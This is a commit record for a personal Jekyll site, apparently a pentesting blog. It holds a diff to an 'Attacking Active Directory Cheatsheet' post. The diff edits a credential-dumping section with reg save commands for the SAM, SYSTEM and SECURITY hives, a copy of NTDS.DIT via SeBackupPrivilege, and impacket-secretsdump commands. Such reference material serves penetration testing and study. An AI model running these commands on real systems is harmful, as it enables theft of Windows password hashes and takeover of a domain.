

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 14504 px. Shown: the whole window, without its empty margins (228-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

```diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -491,13 +491,18 @@
 reg save hklm\system 'C:\Windows\Temp\system'
 reg save hklm\security 'C:\Windows\Temp\security'
 
-# Transfer the **sam, system,** and **security** files from Windows to Kali and dump locally
-# Copy
-Copy-FileSeBackupPrivilege V:\Windows\NTDS\NTDS.DIT C:\Users\svc_veracrypt\Desktop\NTDS.DIT
+# Transfer the SAM, SYSTEM and SECURITY files from Windows to Kali and to dump them locally
+
+# Example of copying NTDS.DIT with Copy-FileSeBackupPrivilege
+Copy-FileSeBackupPrivilege V:\Windows\NTDS\NTDS.DIT C:\Users\john\Desktop\NTDS.DIT
+# Find a way to get NTDS.DIT and transfer it to Kali for local dump
 
 # impacket-secretsdump
+# With Security
 impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY local
+# With NTDS.DIT
 impacket-secretsdump -system SYSTEM -sam SAM -ntds NTDS.DIT local
+# Without SECURITY and without NTDS.DIT (Still able to dump something interesting)
 impacket-secretsdump -sam SAM -system SYSTEM local
 
 # samdump2
```
